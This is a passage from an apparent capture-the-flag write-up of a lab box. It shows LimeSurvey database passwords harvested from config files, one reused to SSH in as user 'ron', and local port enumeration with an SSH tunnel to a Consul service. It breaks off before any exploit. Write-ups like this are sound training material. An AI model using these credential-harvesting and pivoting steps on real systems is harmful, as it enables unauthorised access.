 ```sh
/var/www/limesurvey/application/config/config-sample-pgsql.php:            'password' => 'somepassword',
/var/www/limesurvey/application/config/config-sample-sqlsrv.php:            'password' => 'somepassword',
/var/www/limesurvey/application/config/config.php:                      'password' => 'AdmiDi0_pA$$w0rd',
/var/www/limesurvey/application/views/installer/dbconfig_view.php:        <div id="InstallerConfigForm_dbpwd_row" class="mb-3">
/var/www/limesurvey/application/views/installer/dbconfig_view.php:        <div id="InstallerConfigForm_dbuser_row" class="mb-3">
/var/www/limesurvey/vendor/yiisoft/yii/framework/cli/views/webapp/protected/config/database.php:        'password' => '',
```

I tried the passwords I found against users from the `/etc/passwd` file. I was able to connect to the target via SSH as `ron` using the password `AdmiDi0_pA$$w0rd`.

I was then able to capture the user flag.

```sh
ron@heal:~$ cat user.txt
c03ef39*************************
```

## Privilege Escalation

I found a lot of ports listening on the localhost.

```sh
╔══════════╣ Active Ports
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1138/nginx: worker
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3001          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8503          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8600          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

After exploring several ports, I then port forwarded port 8500.

```sh
┌──(kali㉿kali)-[~]
└─$ ssh -L 8500:localhost:8500 ron@10.10.11.46
```

Consul v.1.19.2 appears to be running on this port. The version can be found by scrolling down on the page shown below.
